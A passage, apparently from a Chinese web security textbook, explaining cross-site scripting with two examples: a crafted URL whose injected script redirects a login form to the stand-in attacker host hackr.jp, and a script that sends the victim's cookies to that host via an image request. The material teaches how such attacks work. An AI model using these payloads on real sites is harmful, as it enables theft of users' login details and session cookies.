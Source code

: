 充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页面内，诱使用户去点击该 URL ：

```
http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s="
```

浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。 当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。   

![](./img/xss_4.png)

### 对用户Cookie的窃取攻击  

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息：

```
<script src=http://hackr.jp/xss.js></script>
```

该脚本内指定的 http://hackr.jp/xss.js 文 件。 即下面这段采用 JavaScript 编写的代码：

```
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段JavaScript 程序， 即可访问到该 Web 应用所处域名下的 Cookie 信息。然后这些信息会发送至攻击者的 Web 网站（ http://hackr.jp/），记录在他的登录日志中。结果，攻击者就这样窃取到用户的 Cookie 信息了：

![](./img/xss_cookie.png)
